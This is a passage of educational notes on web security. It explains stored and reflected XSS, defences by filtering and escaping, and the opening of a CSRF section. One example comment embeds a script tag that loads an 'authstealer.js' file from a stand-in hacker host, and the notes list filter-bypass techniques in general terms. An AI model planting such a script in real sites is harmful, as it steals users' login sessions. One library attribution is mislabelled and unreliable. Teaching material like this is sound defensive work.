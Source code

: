 Example:
``` html
Great price for a great item! 
Read my review here 
<script src=”http://hackersite.com/authstealer.js”> </script>.
```

**Reflected XSS (non-persistent attacks)**
Occur when a malicious script is reflected off of a web application to the victim’s browser.

- vulnerability happens when the user input from a URL or POST data is reflected on the page without being stored, thus allowing the attacker to inject malicious content. Examples: error message, search result etc.
- in order for the attack to be successful, the user needs to click on the infected link

### XSS - How to defend against it

> The two most common and useful XSS prevention mechanisms – filtering and escaping

**Filtering**
All external data is passed through a filter that removes dangerous keywords

- example keywords: the script tag, JavaScript commands, CSS styles, and other dangerous HTML markups
- A lot of code uses regular expressions for filtering and replacing
- but legitimate text is often removed

Hackers can bypass filters by using techniques such as hex encoding, Unicode character variations, line breaks, and null characters in strings. 

These techniques must all be catered for and that is why it is recommended to use some sort of library that has been tried and tested by the community at large.

Choose a library that is regularly maintained by a reliable source
 (for Javascript: OWASP Java Encoder Project) 


**Escaping**
User input is escaped i.e. key characters are converted into characters that are not interpreted as code by the browser. 

Example HTML: 
< and > characters (among others) need to be escaped i.e. turned into their entity equivalents which will not be interpreted as HTML tags by a browser.
```
&lt; and &gt;
```


The two most popular escaping libraries available are the ESAPI provided by OWASP and AntiXSS provided for Microsoft. 


## Cross Site Request Forgery (CSRF)

*...sometimes pronounced sea-surf*  🌊
*...also known as session-riding*  🏄‍♂️ 
*...it sounds cool...
...but it's* **dangerous** 😱
